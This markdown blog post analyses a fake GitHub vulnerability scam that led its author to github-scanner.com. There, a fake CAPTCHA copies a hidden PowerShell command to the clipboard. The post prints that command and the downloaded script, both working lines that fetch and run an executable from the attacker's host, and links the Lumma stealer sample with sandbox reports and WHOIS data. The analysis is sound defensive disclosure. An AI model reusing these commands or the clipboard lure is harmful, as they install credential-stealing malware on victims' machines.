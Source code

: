 ```yaml
---
title: Exploring a Github Security Vulnerability scam.
authors: [hirusha]
tags: [security,scam]
---
```


![alt text](image.png)

Today, I received an email claiming that a security vulnerability had been detected in one of my GitHub repositories. Typically, I receive security notifications from Dependabot, which direct me back to GitHub for further action.

However, this email was unusual. It prompted me to visit an external site, github-scanner.com, rather than linking to GitHub. The email was tied to an issue opened in my repository, urging me to visit this unknown link for more information on how to resolve the issue.

<!--truncate-->

Fortunately, GitHub quickly identified the issue as fraudulent and removed it from my repository.

![alt text](image-1.png)

However, I still had the content of the malicious issue in my email. Out of curiosity, I clicked on the link provided.

The website asked me to verify that I wasn't a robot. While this process is common when accessing certain websites via VPN, the human verification on this site seemed off—completely custom-built and not at all like the standard verifications by services such as Cloudflare.

![alt text](image-2.png)

After clicking the verification button, a text snippet (a PowerShell command) was automatically copied to my clipboard. The website then instructed me to paste and run the command using the `Run` dialog.

This is highly suspicious since legitimate human verification methods typically involve solving a CAPTCHA or recognizing images or audio.

![alt text](image-3.png)

Here’s the PowerShell command that was copied to my clipboard:

```
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```

Breaking Down the Command

- `powershell.exe -w hidden` runs PowerShell in hidden mode, meaning no console window is visible to the user.
- `-Command "iex (iwr 'https://github-scanner.com/download.txt').Content"` fetches content from `https://github-scanner.com/download.txt` and executes it immediately.
    - `iex` (short for `Invoke-Expression`) executes a string as a command.
    - `iwr` (short for `Invoke-WebRequest`) sends a request to the specified URL.
    - `.Content` extracts the contents of the web request.
- The comment `# "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"` is there to mislead the user, implying the text is harmless and related to the verification process.

This is what the command looks like when pasted into the Run dialog:

![alt text](image-25.png)

Analyzing the Downloaded Script

The URL `https://github-scanner.com/download.txt` contains the following PowerShell script:

```ps1
$WebClient = New-Object System.Net.Webclient
$url1 = "https://gitub-scanner.com/l6E.exe"
$filePath1 = "$env:TEMP\SysSetup.exe"
$webClient.DownloadFile($url1, $filePath1)
Start-Process -FilePath $env:TEMP\SysSetup.exe
```

Let's break it down:

- `$WebClient = New-Object System.Net.Webclient` creates an instance of the `WebClient` class, which is used to download files.
- `$url1 = "https://github-scanner.com/l6E.exe"`specifies the URL of the file to be downloaded.
- `$filePath1 = "$env:TEMP\SysSetup.exe"` defines where the file will be saved (in the temp folder, under the name SysSetup.exe to appear legitimate).
- `$webClient.DownloadFile($url1, $filePath1)` downloads the file and stores it in the specified location.
- `Start-Process -FilePath $env:TEMP\SysSetup.exe` runs the downloaded file.

![alt text](image-4.png)


The infected file can be downloaded from [here](./l6E.exe.bin-infected.zip). The password for this file is: `infected`. 

Static Analysis with VirusTotal

Running a static analysis through VirusTotal shows that only 12 antivirus engines detected this file as malicious. It appears to be a common stealer, but the low detection rate suggests it might be packed in a way that evades many detection systems. You can view the report [here](https://www.virustotal.com/gui/url/b64a25fef85ad988dee3ds3b772ea60dc4d53333cd0857924745c000ff858c5eb).

![alt text](image-14.png)

Interestingly, there’s already a comment on VirusTotal from someone who encountered the scam through a similar method.

![alt text](image-15.png)


Dynamic Analysis with Any.Run

I ran the sample through Any.Run for dynamic analysis. You can view the report [here](https://app.any.run/tasks/8ac63e3e-621c-4d47-b832-73dad43c208c).

![alt text](image-5.png)

The stealer connects to several unknown hosts, likely for redundancy. If one IP or domain gets taken down, the stealer can still communicate with others.

Suricata, an open-source intrusion detection system, has identified this as the ["LUMMA Stealer"](https://malpedia.caad.fkie.fraunhofer.de/details/win.lumma)

![alt text](image-7.png)


![alt text](image-6.png)    


Further Dynamic Analysis with Triage

I submitted the sample for further analysis using Triage. You can view the full report [here](https://tria.ge/240919-fczkva1gja/behavioral1).

The stealer performs several discovery techniques, including browser information discovery, and tries to contact multiple domains.

![alt text](image-9.png)


Investigating the IP Address

I looked up the IP address hosting the web server, which provided information about the hosting provider and an email address to report abuse.

![alt text](image-8.png)

![alt text](image-10.png)

![alt text](image-11.png)

![alt text](image-12.png)


WHOIS Lookup of the Domain

Here’s the WHOIS information for `github-scanner.com`:

```yaml
   Domain Name: GITHUB-SCANNER.COM
   Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.webnic.cc
   Registrar URL: http://https://www.webnic.cc
   Updated Date: 2024-09-18T12:34:24Z
   Creation Date: 2024-09-18T12:34:24Z
   Registry Expiry Date: 2025-09-18T12:34:24Z
   Registrar: Web Commerce Communications Limited dba WebNic.cc
   Registrar IANA ID: 460
   Registrar Abuse Contact Email: compliance_abuse@webnic.cc
   Registrar Abuse Contact Phone: +60.189836788
   Domain Status: ok https://icann.org/epp#ok
   Name Server: CODY.NS.CLOUDFLARE.COM
   Name Server: MARGOT.NS.CLOUDFLARE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-09-19T04:59:15Z <<<

...

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.


Domain Name: GITHUB-SCANNER.COM
Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.webnic.cc 
Registrar URL: http://www.webnic.cc 
Updated Date: 2024-09-18T12:41:20Z
Creation Date: 2024-09-18T12:34:24Z
Expiration Date: 2025-09-18T00:34:24Z
Registrar: WEBCC 
Registrar IANA ID: 460 
Registrar Abuse Contact Email: compliance_abuse@webnic.cc 
Registrar Abuse Contact Phone: +60.389966799 
Domain Status: ok https://icann.org/epp#ok 
Registry Registrant ID: Not Available From Registry
Registrant Name: Domain Admin 
Registrant Organization: Whoisprotection.cc
Registrant Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Registrant City: Kuala Lumpur
Registrant State/Province: Wilayah Persekutuan
Registrant Postal Code: 57000
Registrant Country: Malaysia
Registrant Phone: +60.389966788
Registrant Phone Ext: 
Registrant Fax: +603.89966788
Registrant Fax Ext: 
Registrant Email: reg_21331022@whoisprotection.cc
Registry Admin ID: Not Available From Registry
Admin Name: Domain Admin 
Admin Organization: Whoisprotection.cc
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
Admin Phone Ext: 
Admin Fax: +603.89966788
Admin Fax Ext: 
Admin Email: adm_21331022@whoisprotection.cc
Registry Tech ID: Not Available From Registry
Tech Name: Domain Admin 
Tech Organization: Whoisprotection.cc
Tech Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Tech City: Kuala Lumpur
Tech State/Province: Wilayah Persekutuan
Tech Postal Code: 57000
Tech Country: Malaysia
Tech Phone: +60.389966788
Tech Phone Ext: 
Tech Fax: +603.89966788
Tech Fax Ext: 
Tech Email: tec_21331022@whoisprotection.cc
Name Server: CODY.NS.CLOUDFLARE.COM
Name Server: MARGOT.NS.CLOUDFLARE.COM
DNSSEC: unsigned

URL of the ICANN WHOIS Data Problem Reporting System: https://www.icann.org/wicf
>>> Last update of WHOIS database: 2024-09-19T04:59:24Z <<<
does not guarantee its accuracy. By submitting a WHOIS query, you agree 
that you will use this Data only for lawful purposes and that, under no 
circumstances will you use this Data to:

...
```
